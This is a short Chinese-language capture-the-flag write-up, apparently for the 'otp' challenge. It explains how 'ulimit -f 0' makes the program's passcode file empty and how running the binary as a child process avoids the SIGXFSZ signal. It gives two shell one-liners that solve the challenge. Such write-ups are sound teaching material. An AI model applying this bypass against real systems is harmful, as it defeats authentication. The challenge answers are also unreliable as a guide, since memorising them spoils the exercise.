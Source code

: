 ## 思路
本题思路就是通过 `ulimit -f 0` 指令来限制程序的文件输出大小, 设为0指程序不能写出任何内容(但能创建空文件). 这样程序再读取这个空的文件, 得到的 passcode 就是空(0)了, 然后我们只需要预先传入0这个参数就 Boom! 
这里稍微还有一个坑就是, 如果你直接执行 `./otp 0` 这样的话, 会触发 SIGXFSZ 信号, 导致程序被终止. 这个绕过的方法就是让程序作为某个程序的子进程进行执行, 这样就会忽略掉这个信号, 让程序成功执行(具体原因估计就是系统程序就是这样设计的吧, 我没有深究).

## 答案
本题并不适合直接写一个 Python 脚本执行, 你需要先 ssh 到服务器, 再执行一下指令中的其中一条:
```shell
ulimit -f 0 && python -c "import os; os.system('./otp 0')"
```

或

```shell
ulimit -f 0 && python -c "from subprocess import Popen; Popen(['./otp', ''])"
```
